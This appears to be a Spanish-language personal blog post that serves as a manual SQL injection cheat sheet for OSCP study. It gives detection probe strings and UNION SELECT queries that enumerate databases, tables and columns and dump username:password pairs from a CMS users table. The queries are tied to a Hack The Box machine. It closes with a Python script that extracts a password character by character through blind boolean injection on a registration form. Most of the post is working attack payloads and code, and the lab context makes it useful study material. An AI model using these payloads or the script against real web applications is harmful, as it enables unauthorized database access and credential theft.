 ```yaml
---
layout: post
author: Sergio Salgado
---
```


## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
- <a href="#identificar_la_inyeccion">Identificar la inyeccion</a>
- <a href="#consultas_basicas">Consultas basicas</a>

## [](#header-2)<a id="introduccion">Introduccion</a>
SQL (Structured Query Language) Injection, comunmente llamado SQLi, es un ataque sobre aplicaciones web que tienen comunicacion con servidores de base de datos que tiene como objetivo realizar consultas maliciosas o fuera de permisos. 
Cuando una aplicacion web se comunica con la base de datos gracias a la informacion pasada por algun campo de entrada para el usuario y no es validada propiamente esta informacion, corre potencialmente la posibilidad de que un atacante pueda ejecutar la consulta y asi robar, borrar o alterar la informacion.
Esto atenta contra los principios de disponibilidad, confidencialidad e integridad de la informacion y es importante su atencion a esta vulnerabilidad web tan antigua. 

El objetivo de este post es agilizar la busqueda de posibles entradas en inyecciones posibles que he visto para entrar en sql y poder tambien almacenar descriptivamente la estructura de sql para enumerar informacion de las bases de datos; ya que en el OSCP no esta permitido el uso de sqlmap y asi tambien ayudarme en la practica de esta intrusion.

## [](#header-2)<a id="tipos_respuestas">Identificando Tipos de respuestas</a>
### [](#header-3)<a id="In-Band SQL Ijection">In-Band SQL Ijection</a>
Este es el tipo mas facil de detectar y explotar por que hace referencia al mismo metodo de comunicacion que es usado para hacer la explotacion de la vulnerabilidad, como por ejemplo descubriendo la inyeccion de SQL y en el mismo website poder extraer la indormacion.

### [](#header-3)<a id="Error-Based">Error-Based SQL Ijection</a> 
Este tipo de inyeccion es la mas util para obtener facilmente informacion sobre la base de datos por medio de mensajes de error que son mostrados directamente en el navegador.


### [](#header-3)<a id="Union-Based">Union-Based SQL Ijection</a>
Este tipo de inyeccion utiliza el operador UNION de SQL junto con un SELECT para mostrar resultados adicionales en la pagina


## [](#header-2)<a id="identificar_la_inyeccion">Identificar la inyeccion</a>
 En esta seccion pondre algunas de las tipicas formas de pasar algunos filtros para las inyecciones de SQL

Podemos intentar primero confirmar la existencia de la vulnerabilidad en SQL con simplemente:

 ```s
 ' -- -
 )' -- -

'; #

  ' #
 )' #

  ' ;
 )' ;

 -- -Para obtener el numero de columnas podemos intentar un 
 ') order by 3 -- -
 
 ```

## [](#header-2)<a id="consultas_basicas">Consultas basicas</a>


El siguiente ejemplo es aplicable en la maquina Overflow de Hack the Box.

En este caso la informacion se listara en el campo 3, ya que es el que esta libre para mostrar la informacion.

 ```SQL
-- - Para listar las bases de datos podemos hacer un:

-- - Para listar las tablas dentro de una bd podemos hacer un:
union select 1,2,table_name from information_schema.tables where table_schema=\"cmsmsbd"\ limit {numero de posicion de la tabla},1-- -

-- - Para listar las columnas dentro de una tabla podemos hacer un:
union select 1,2,column_name from information_schema.columns where table_schema=\"cmsmsbd"\ and table_name=\"cms_users"\ limit {numero de posicion de la columna},1-- -

-- - Para listar los datos de una columna dentro de un mismo campo podemos hacer un:
union select 1,2,group_concat(username, 0x3a, password) from cmsmsdb.cms_users -- -
union select 1,2,sitepref_value from cmsmsdb.cms_siteprefs -- -

-- - Para listar la informacion de una tabla completa 
select * from tablename;
 ```

Programa de Python para encontrar contrasenas

```py
import json
import requests

def sql_injection_advance_5():
    alphabet_index = 0
    alphabet = 'abcdefghijklmnopqrstuvxyz'
    password_index = 0
    password = ''

    headers = {
        'Cookie': ''
    }

    while True:
        payload = 'tom\' AND substring(password,{},1)=\'{}'.format(password_index + 1, alphabet[alphabet_index])

        data = {
            'username_reg' : payload,
            'email_reg': 'a@a',
            'password_reg': 'a',
            'confirm_password_reg': 'a'
        }

        r = requests.put(LINK, headers=headers, data=data)

        try:
            response = json.loads(r.text)
        except:
            print("Error en JSESSIONID, lo encontraras cuando estes logeado")
            return
        
        if "already exists please try to register with a diferent username" not in response['feedback']:
            alphabet_index += 1
            if alphabet_index > len(alphabet) - 1:
                return
        else:
            password += alphabet[alphabet_index]
            print(password)
            alphabet_index = 0
            password_index += 1

sql_injection_advance_5()
```